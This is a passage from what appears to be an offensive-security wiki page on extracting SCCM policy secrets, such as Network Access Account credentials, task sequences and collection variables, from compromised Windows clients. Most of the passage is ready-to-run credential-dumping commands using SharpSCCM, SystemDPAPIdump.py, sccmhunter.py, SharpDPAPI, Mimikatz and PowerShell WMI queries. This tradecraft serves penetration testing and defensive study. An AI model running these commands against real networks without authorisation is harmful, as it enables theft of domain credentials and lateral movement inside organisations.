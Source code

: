 All secret policies associated with the compromised device's collections (including NAAs, Task sequences and collection variables) will be dumped.

```powershell
.\SharpSCCM.exe get secrets
```

:::


Finally, it should be mentioned that SCCM policies secrets (NAA, Task Sequences, Collection variables) are stored on the disk of SCCM clients, encrypted with DPAPI. Interestingly enough regarding NAA, even after deleting or changing the NAA in the SCCM configuration, the binary file still contains the encrypted credentials on the enrolled computers (see [this SpecterOps article](https://posts.specterops.io/the-phantom-credentials-of-sccm-why-the-naa-wont-die-332ac7aa1ab9)). The same behaviour can be observed for Task sequences and Collection variables.

As a result, it is possible to retrieve policies secrets **locally** on compromised devices.

::: tabs

=== UNIX-based

Using a local administrator account, [SystemDPAPIdump.py](https://github.com/fortra/impacket/pull/1137) (Python) can be used to fetch and decrypt SCCM policies secrets locally, as well as [sccmhunter.py](https://github.com/garrettfoster13/sccmhunter) (Python).

```bash
SystemDPAPIdump.py -creds -sccm $DOMAIN/$USER:$PASSWORD@target.$DOMAIN
```

```bash
python3 sccmhunter.py dpapi -u $USER -p $PASSWORD -d $DOMAIN -dc-ip $DC_IP -target $TARGET -wmi
```

=== Windows-based

With administrative access to a Windows machine enrolled in the SCCM environment, [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#), [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) (C#), [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) or native PowerShell can be used to extract policies secrets locally.

```powershell
# SharpSCCM - from disk
SharpSCCM.exe local secrets disk

# SharpSCCM - from WMI
SharpSCCM.exe local secrets wmi

# SharpDPAPI
SharpDPAPI.exe SCCM

# Mimikatz
mimikatz.exe
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # dpapi::sccm

# Native Powershell
Get-WmiObject -Namespace ROOT\ccm\policy\Machine\ActualConfig -Class CCM_NetworkAccessAccount
Get-WmiObject -Namespace ROOT\ccm\policy\Machine\ActualConfig -Class CCM_TaskSequence
Get-WmiObject -Namespace ROOT\ccm\policy\Machine\ActualConfig -Class CCM_CollectionVariable
```
